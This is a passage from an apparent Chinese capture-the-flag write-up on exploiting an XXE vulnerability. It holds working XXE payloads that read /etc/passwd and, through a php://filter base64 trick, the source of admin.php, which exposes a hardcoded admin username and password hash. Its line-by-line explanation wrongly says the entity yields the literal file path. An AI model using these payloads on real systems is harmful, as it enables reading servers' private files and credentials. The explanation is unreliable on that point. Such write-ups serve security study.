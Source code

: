 可以看到成功返回了`ect/passwd`的内容，说明存在XXE漏洞。



**解读一下这段XML代码：**

> 这段XML代码是一个简单的XML文档，用于表示数据。让我们逐行来解释它：
>
> 1. `<?xml version="1.0" ?>`: 这是XML声明，它指定了XML文档的版本。
>
> 2. `<!DOCTYPE r [`: 这是文档类型定义（Document Type Definition，DTD）的开始。它定义了XML文档中可以使用的元素以及它们的结构。
>
> 3. `<!ELEMENT r ANY >`: 这是DTD中的元素声明，它定义了名为"r"的元素。在这里，"r"元素被声明为可以包含任意内容。
>
> 4. `<!ENTITY sp SYSTEM "file:///etc/passwd">`: 这是DTD中的实体声明，它定义了名为"sp"的实体。在这里，"sp"实体被声明为引用了一个名为"file:///etc/passwd"的系统文件。
>
> 5. `<root>`: 这是XML文档中的根元素。
>
> 6. `<name>&sp;</name>`: 这是一个名为"name"的元素，其内容被定义为引用"sp"实体。因此，"name"元素的内容将被替换为"file:///etc/passwd"。
>
> 7. `<password>hj</password>`: 这是一个名为"password"的元素，其内容为"hj"。
>
> 8. `</root>`: 根元素的结束标签。
>
> 综上所述，该XML文档具有一个根元素"root"，其中包含了一个名为"name"的元素和一个名为"password"的元素。"name"元素的内容被替换为"file:///etc/passwd"，而"password"元素的内容为"hj"。请注意，"file:///etc/passwd"是一个指向系统中的文件路径，它可能包含有关用户的敏感信息。这段XML可能意图读取该文件的内容，并将敏感信息嵌入到XML文档中。这种行为可能会导致安全风险，因此在处理XML数据时应谨慎对待。



## 5

我们继续利用XXE漏洞，将XML部分替换为以下内容：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&admin;</name><password>admin</password></root>

```

**得到的关键数据如下：**

```php
<?php
$msg = '';
if (
    isset($_POST['login']) && !empty($_POST['username'])
    && !empty($_POST['password'])
) {

    if (
        $_POST['username'] == 'administhebest' &&
        md5($_POST['password']) == 'e6e061838856bf47e1de730719fb2609'
    ) {
        $_SESSION['valid'] = true;
        $_SESSION['timeout'] = time();
        $_SESSION['username'] = 'administhebest';

        echo "You have entered valid use name and password <br />";
        $flag = "Here is the <a style='color:FF0000;' href='/flagmeout.php'>Flag</a>";
        echo $flag;
    } else {
        $msg = 'Maybe Later';
```